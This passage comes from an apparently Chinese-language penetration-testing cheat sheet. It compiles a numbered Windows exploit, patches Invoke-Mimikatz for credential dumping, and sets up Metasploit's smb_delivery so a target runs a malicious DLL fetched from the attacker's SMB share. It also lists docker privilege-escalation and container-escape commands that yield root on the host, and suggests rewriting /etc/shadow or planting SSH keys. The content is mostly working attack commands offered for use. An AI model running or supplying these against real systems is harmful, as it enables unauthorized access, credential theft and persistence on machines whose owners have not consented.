 编译:

```
i686-w64-mingw32-g++-win32 44479.cpp -lgdi32 -lopengl32 -o lol.exe -static
```

### **15. 在运行Invoke-Mimikatz.ps1和Invoke-ReflectivePEInjection.ps1时得到一个错误。?**

> Exception calling "GetMethod" with "1" argument(s): "Ambiguous match found."

Replace this:

```
$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress')
```

With:

```
$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);
```

### **16. 利用smb共享远程加载恶意DLL**

```
msfconsole
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost IP //your LHOST
msf exploit(windows/smb/smb_delivery) > exploit
# locally:
rundll32.exe \\\\IP\\vabFG\\test.dll,0
```

我想你也可以使用*[bitsadmin](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)*。

### **17. 得到了docker suid或sudo?**

```
docker run -v /:/mnt -it ubuntu
```

一旦文件系统被加载，你就可以读写/etc/passwd和/etc/shadow。你也可以在/root/.ssh/authorized_keys中添加你的公共ssh密钥。

#### docker 逃逸

```
socks 逃逸

#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```
